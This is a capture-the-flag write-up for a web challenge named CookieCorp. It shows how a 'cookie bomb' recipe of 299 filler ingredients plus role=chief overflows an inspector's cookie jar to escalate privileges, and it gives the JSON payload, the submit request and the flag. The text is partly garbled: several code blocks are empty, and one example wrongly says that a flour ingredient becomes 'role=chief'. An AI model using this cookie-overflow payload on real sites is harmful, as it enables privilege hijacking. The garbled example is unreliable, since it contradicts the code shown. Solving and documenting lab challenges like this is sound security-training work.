






# CookieCorp

## Identifying the recipe creation and submission API

Register an account. The dashboard contains the following pages:

```text
/dashboard
/builder
```

Submit a test batch:



After the recipe is saved, it can be submitted:

```text
Submitted! The inspector will review batch a200520c2c2b80dc885d2ccf shortly. Watch it on the batch page.
```

## Reading the review page source

After the Inspector receives the recipe, the review page embeds it in JavaScript:



The file `/static/js/mixer.js` contains the ingredient-processing function:



Therefore, the following ingredient:

```json
{"name":"flour","value":"2cups"}
```

is processed by the browser as:

```text
role=chief; path=/
```

After processing all ingredients in order, the Inspector calls the seal API with this body:



Try ingredients that control the role:

```json
{"name":"role","value":"chief"}

{"name":"chief","value":"1"}

{"name":"isChief","value":"true"}

{"name":"golden_seal","value":"1"}
```

These extra cookies do not change the permissions. The recipe still receives a normal seal because the Inspector's authentication cookie and existing role are preserved.

I also tried injecting a cookie attribute into the value:

```json
{"name":"role","value":"chief; Path=/api"}
```

The application filters semicolons, whitespace, and control characters from ingredients. The value becomes:

```text
role=chiefPath=/api
```

Therefore, one ingredient cannot be used to inject an additional `Path`, `Domain`, or cookie.

I will create a cookie bomb because `mixer.js` turns each ingredient into a cookie:

```js
document.cookie = ing.name + '=' + (ing.value || '') + '; path=/';
```

Creating many cookies with different names fills the host's cookie jar. The browser then has to evict older cookies.

The exploit recipe contains exactly 300 ingredients:

- Ingredients 1 through 299: cookies named `bomb000` through `bomb298`, each with the value `x`.
- Ingredient 300: the cookie `role=chief`.

The filler cookies must have different names. If a name is reused, the browser only updates the existing cookie and the total cookie count does not increase.

The JSON payload title and 299 filler entries are as follows:

```json
{
  "title": "cookie-bomb-role",
  "ingredients": [
    {"name":"bomb000","value":"x"},
    {"name":"bomb001","value":"x"},
    ...............
    {"name":"bomb298","value":"x"},
    {"name":"role","value":"chief"}
  ]
}
```

The server returns:



Use the returned ID to submit the recipe:

```http
POST /api/recipe/0e75a71c67dad450713297d4/submit HTTP/1.1
Host: tomorrow.web.2026.sunshinectf.games
```

Response:

```json
{"ok":true,"status":"queued"}
```

Open the recipe:



## Flag

```text
sun{c00kie_jar_0verfl0w_ev1cts_the_chief}
```
